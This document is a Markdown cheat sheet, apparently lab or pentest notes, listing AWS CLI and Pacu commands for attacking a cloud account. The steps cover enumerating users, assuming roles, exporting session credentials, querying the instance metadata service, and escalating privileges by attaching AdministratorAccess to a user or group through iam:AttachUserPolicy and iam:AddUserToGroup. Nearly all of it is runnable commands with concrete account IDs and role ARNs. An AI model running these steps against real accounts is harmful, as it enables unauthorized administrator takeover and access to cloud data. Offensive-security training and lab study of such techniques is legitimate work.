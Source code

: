 ## Create IAM role
`aws iam create-role --role-name a4 --assume-role-policy-document file://assume-role-doc.json`  

## Enumerate users (pacu)
`run iam__enum_users --role-name a4 --account-id <account ID from $aws__enum_account> --word-list /home/kali/names.txt`  

## Assume Role
`aws sts assume-role --role-arn arn:aws:iam::276384657722:role/ad-LoggingRole --role-session-name ad_logging`  
### Export secrets
```
export AWS_ACCESS_KEY_ID=<>
export AWS_SECRET_ACCESS_KEY=<>
export AWS_SESSION_TOKEN=<>
//unset
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```  
### Confirm assumed role  
`aws sts get-caller-identity`  
### Retrieve attached policies for assumed role  
`aws iam list-attached-role-policies --role-name ad-LoggingRole`  
### From here we can list buckets and their objects with readonlyaccess  

## List policies attached to user  
`aws iam list-attached-user-policies --user-name <user>`  
### Check policy details for the a policy  
`aws iam get-policy --policy-arn arn:aws:iam::aws:policy/<policy>`  
### View policy details for versions  
`aws iam get-policy-version --policy-arn arn:aws:iam::225489834925:policy/Service --version-id v1` 

## List inline policies attached to users  
`aws iam list-user-policies --user-name student`  
### Enum inline policies
`aws iam get-user-policy --user-name student --policy-name <inline policy>`  
`aws iam list-role-policies --role-name Adder`  
`aws iam get-role-policy --role-name Adder --policy-name AddUser`  

## Get Region  
`curl http://169.254.169.254/latest/dynamic/instance-identity/document`  
`aws configure get region`  
`curl -s http://169.254.169.254/latest/meta-data/placement/availability-zone | sed 's/\(.*\)[a-z]/\1/'`  
`ec2-metadata --availability-zone`  
 
## Abuse `iam:AttachUserPolicy` being present  
`aws iam list-policies | grep 'AdministratorAccess'`  
`aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-user-policies --user-name student`  
`aws iam attach-group-policy --group-name Printers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-group-policies --group-name Printers`  

## Abuse `iam:AddUserToGroup` being present
`aws iam add-user-to-group --group-name Printers --user-name student`  
`aws iam list-groups-for-user --user-name student`  
